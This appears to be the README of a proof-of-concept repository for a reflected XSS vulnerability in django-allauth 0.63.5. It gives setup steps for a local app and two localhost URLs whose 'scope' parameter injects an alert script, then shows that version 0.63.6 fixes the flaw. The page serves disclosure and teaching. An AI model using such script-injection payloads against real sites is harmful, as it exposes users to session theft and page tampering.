 # Proof of concept for a XSS vulnerability in django-allauth 0.63.5

You can read the full post [here](https://stsewd.dev/posts/xss-in-django-allauth-fb-provider/).

## Requirements

- Python
- [uv](https://docs.astral.sh/uv/getting-started/installation/)

## Set up

```bash
$ git clone https://github.com/stsewd/poc-xss-django-allauth
$ cd poc-xss-django-allauth
$ uv run manage.py migrate
# Create a user to log into the application.
$ uv run manage.py createsuperuser
$ uv run manage.py runserver
```

## Proof of concept

**XSS in login page**

- While logged out, go to ``http://127.0.0.1:8000/accounts/login/?scope=</script><script>alert(document.domain)</script><script>``

**XSS in social connections page**

- Go to ``http://127.0.0.1:8000/accounts/login/``
- Log in with the user you created
- Go to ``http://127.0.0.1:8000/accounts/3rdparty/?scope=</script><script>alert(document.domain)</script><script>``

Try updating the project to use django-allauth 0.63.6, and repeat the steps to see that the vulnerability is fixed.

```bash
$ uv add django-allauth==0.63.6
```
